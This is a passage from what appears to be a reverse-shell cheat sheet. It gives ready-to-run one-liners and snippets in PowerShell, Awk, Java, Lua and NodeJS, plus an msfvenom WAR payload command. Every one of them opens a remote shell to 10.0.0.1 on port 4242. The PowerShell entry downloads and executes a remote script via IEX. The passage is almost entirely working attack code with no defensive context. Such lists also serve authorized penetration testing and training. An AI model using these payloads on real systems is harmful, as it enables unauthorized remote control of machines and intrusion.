 ```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### War

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```


### Lua

Linux only

```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows and Linux

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')
```